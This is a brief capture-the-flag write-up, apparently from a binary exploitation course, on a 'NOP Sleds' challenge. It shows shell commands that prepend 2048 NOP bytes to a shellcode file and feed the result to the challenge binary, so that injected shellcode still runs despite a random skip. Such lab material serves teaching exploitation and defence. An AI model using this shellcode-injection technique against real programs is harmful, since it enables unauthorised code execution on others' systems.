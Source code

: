 # NOP Sleds

```text
This challenge will randomly skip up to 0x800 bytes in your shellcode.
```

So, we should prepend the `shellcode-raw` file from [prev challenge](./Basic%20Shellcode.md) with 0x800 (= 2048) `NOP (0x90)` instructions

```shell
printf '\x90%.0s' {1..2048} | cat - shellcode-raw > shellcode-raw-nop
cat shellcode-raw-nop | /challenge/binary-exploitation-nopsled-shellcode
```

